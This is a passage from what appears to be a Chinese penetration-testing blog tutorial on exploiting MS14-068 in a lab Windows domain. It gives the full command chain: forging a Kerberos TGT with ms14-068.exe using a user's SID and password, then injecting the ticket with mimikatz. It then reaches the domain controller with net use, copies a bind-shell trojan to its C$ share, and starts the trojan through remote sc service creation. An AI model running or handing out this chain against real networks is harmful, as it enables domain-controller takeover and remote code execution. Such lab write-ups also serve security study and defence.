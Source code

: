 SID为：S-1-5-21-979886063-1111900045-1414766810-1107

然后再Windows 7上传工具ms14-068.exe，并执行如下命令生成TGT票据：

```cobol
`ms14-068.exe -u douser@demo.com -s S-1-5-21-979886063-1111900045-1414766810-1107 -d 192.168.183.130 -p Dotest123ms14-068.exe -u 域成员名@域名 -s 域成员sid -d 域控制器ip地址 -p 域成员密码`



AI写代码
```

![](https://i-blog.csdnimg.cn/blog_migrate/3be4ed081fb4adde9fb0b29dfbb5901a.jpeg)![](https://i-blog.csdnimg.cn/blog_migrate/10d8bab4621309e73f0ad8271e0857dc.jpeg)

如上图，成功生成名为TGT_douser@DEMO.com.ccache的票据文件，接下来要做的就是将该票据文件注入到Windows 7的内存中了：

在Windows 7上传mimikatz，利用mimikatz将票据注入到当前内存中，伪造凭证：

```cobol
`mimikatz # kerberos::purge         //清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造``mimikatz # kerberos::list          //查看当前机器凭证``mimikatz # kerberos::ptc 票据文件   //将票据注入到内存中`



AI写代码
```

![](https://i-blog.csdnimg.cn/blog_migrate/562bb179d6b1c5ce21507273dde6ffae.jpeg)

如上图，票据注入成功，此时，攻击者就可以利用Windows 7可任意访问域中所有机器，可以使用net use进行登录或者使用psexec，wmi等方法进行远程执行命令。如用net use登录域控（WIN-ENS2VR5TR3N）：

```cobol
`net use \\WIN-ENS2VR5TR3N`



AI写代码
```

如上图，成功登录域控并列出了域控的c盘目录。此时要想控制域控我们还要在Windows 7上面上传一个**正向**的msf马，并将该木马copy到域控上去执行：

```cobol
`copy c:\windows\system32\bind.exe \\WIN-ENS2VR5TR3N\c$`



AI写代码
```

![](https://i-blog.csdnimg.cn/blog_migrate/f5f14725b447cf26573fb327228aa341.jpeg)

然后再Windows 7上通过sc远程对域控创建服务来启动木马：

```cobol
`sc \\WIN-ENS2VR5TR3N create bindshell binpath= "c:\bind.exe"``sc \\WIN-ENS2VR5TR3N start bindshell`



AI写代码
```
